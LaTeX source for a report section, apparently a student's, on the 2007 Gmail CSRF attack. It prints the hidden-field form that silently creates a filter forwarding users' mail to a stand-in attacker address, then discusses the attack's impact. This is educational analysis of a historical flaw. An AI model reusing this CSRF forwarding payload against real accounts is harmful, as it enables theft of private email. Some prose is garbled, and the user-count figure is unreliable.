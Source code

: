 \documentclass[a4paper,11pt,openany]{report}
\begin{document}
  The injection could be done on almost any of Gmail's interfaces where a user was logged in.
  
  \begin{figure}[h!t]
  \begin{verbatim} % JS = JavaScript
  <form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" enctype="multipart/form-data"> 
    <input type="hidden" name="cf2_emc" value="true"/> 
    <input type="hidden" name="cf2_email" value="allyourmails@arebelongto.us"/> 
    <input type="hidden" name="cf1_from" value=""/> 
    <input type="hidden" name="cf1_to" value=""/> 
    <input type="hidden" name="cf1_subj" value=""/> 
    <input type="hidden" name="cf1_has" value=""/> 
    <input type="hidden" name="cf1_hasnot" value=""/> 
    <input type="hidden" name="cf1_attach" value="true"/> 
    <input type="hidden" name="tfi" value=""/> 
    <input type="hidden" name="s" value="z"/> 
    <input type="hidden" name="irf" value="on"/> 
    <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
  </form>
  \end{verbatim}
  \caption{The form layout presented by Gnucitizen[5] (educational site on security related matters).}
  \label{figure:signed_token_server}
  \end{figure}
  
[5] Gnucitizen - Google Gmail e-mail hijack technique. http://www.gnucitizen.org/blog/google-gmail-e-mail-hijack-technique/. Accessed: 2015-11-26.  
  
  \subsubsection{Impact}
  One would it would be a hard backlash for Gmail when the reports came about the CSRF attacks. Users lost 
  accounts and information even after Google fixed the vulnerability. As the source of the attack, the filter, 
  had to be removed by the users themselves. But the declining popularity never occurred. The key, to the gigantic
  success users world wide are using today, is the fact it happened in an early stage. During the attacks in 
  September, approximately 80 thousand were using Gmail[6]. Compare it to 2015 where 900 million users exists[7].
  The attack was severe, but it was done during a time Gmail had just started their engines. If the same attack
  would happen today, who knows how many users would leave Gmail for another email service.
  
[6] Techcrunch - 2007 in numbers: Yahoo > Gmail. http://techcrunch.com/2007/12/25/2007-in-numbers-more-people-using-yahoo-mail-this-christmas-than-gmail/. Accessed: 2015-11-27.
[7] DMR - 15 amazing Gmail Statistics Nov 15. http://expandedramblings.com/index.php/gmail-statistics/. Accessed: 2015-11-27.
  
\end{document}
